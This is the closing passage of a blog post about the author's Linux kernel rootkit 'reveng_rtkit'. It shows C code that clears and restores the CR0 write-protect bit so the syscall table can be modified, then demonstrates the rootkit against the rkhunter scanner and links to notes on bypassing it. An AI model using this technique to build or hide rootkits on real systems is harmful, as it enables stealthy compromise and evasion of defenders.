 
                    static inline void write_cr0_forced(unsigned long val)
                    {
                      unsigned long __force_order;

                      asm volatile("mov %0, %%cr0" : "+r"(val), "+m"(__force_order));
                    }

                    static inline void protect_memory(void)
                    {
                      printk(KERN_INFO "[*] reveng_rtkit: (Memory protected): Regainig normal memory protection\n");
                      write_cr0_forced(cr0);	// Setting WP flag to 1 => read-only
                    }

                    static inline void unprotect_memory(void)
                    {
                      pr_info("[*] reveng_rtkit: (Memory unprotected): Ready for editing Syscall Table");
                      write_cr0_forced(cr0 & ~0x00010000);	// Setting WP flag to 0 => writable
                    }
                   ```
                   Testing the Code:
                   ![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog14.png?raw=true)

                   Let's see how it performs with ***rkhunter*** antirootkit:
                   
                   [![asciicast](https://asciinema.org/a/OrYS0EFYh5LvMZ6CMFQtaUioe.svg)](https://asciinema.org/a/OrYS0EFYh5LvMZ6CMFQtaUioe)
                   I have already explained about the reason behind those warnings in my github [README.md](https://github.com/reveng007/reveng_rtkit#bypassing-rkhunter-antirootkit).

                   With this, I have come to the end of the blog. I will be updating the blog as soon as I make some changes to my `reveng_rtkit`rootkit.
                   If you have any query, you can reach me at any of my social media. Till then, see yaa!

